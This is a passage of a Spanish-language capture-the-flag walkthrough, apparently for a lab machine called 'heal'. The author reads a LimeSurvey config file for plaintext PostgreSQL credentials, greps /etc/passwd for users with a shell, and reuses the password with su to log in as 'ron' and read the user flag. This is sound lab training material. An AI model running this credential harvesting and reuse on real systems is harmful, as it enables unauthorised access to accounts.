 ```bash
$config_folder = dirname(__FILE__) . '/../application/config/';
$config_file = $config_folder . 'config.php';
if (!file_exists($config_file)) {
    $config_file = $config_folder . 'config-sample-mysql.php';
}
define('BASEPATH', dirname(__FILE__) . '/..'); // To prevent direct access not allowed
$config = require($config_file);

$urlStyle = $config['components']['urlManager']['urlFormat'];

// Simple redirect to still have the old /admin URL
if ($urlStyle == 'path') {
    header('Location: ../index.php/admin');
} else {
    // For IIS use get style
    header('Location: ../index.php?r=admin');
}
```

Listaremos el contenido del archivo, y verificamos que aparecen credenciales de acceso a una base de datos de PostgreSQL.

```bash
www-data@heal:~/limesurvey/application/config$ cat config.php
<?php if (!defined('BASEPATH')) exit('No direct script access allowed');

...[snip]...

return array(
	'components' => array(
		'db' => array(
			'connectionString' => 'pgsql:host=localhost;port=5432;user=db_user;password=AdmiDi0_pA$$w0rd;dbname=survey;',
			'emulatePrepare' => true,
			'username' => 'db_user',
			'password' => 'AdmiDi0_pA$$w0rd',
			'charset' => 'utf8',
			'tablePrefix' => 'lime_',
		),
```

Después de varios intentos intentando acceder al PostgreSQL, probamos de verificar si estas credenciales se reutilizaban para uno de los usuarios que disponían de una `bash`.

Verificamos que hemos podido acceder como usuario `ron` y obtener la flag **user.txt**.

```bash
www-data@heal:/$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
ralph:x:1000:1000:ralph:/home/ralph:/bin/bash
postgres:x:116:123:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
ron:x:1001:1001:,,,:/home/ron:/bin/bash
www-data@heal:/$ su ralph
Password: 
su: Authentication failure
www-data@heal:/$ su ron
Password: 
ron@heal:/$ cat /home/ron/user.txt 
5a4c50cd03979eab6aa0c197792d4ec3
```
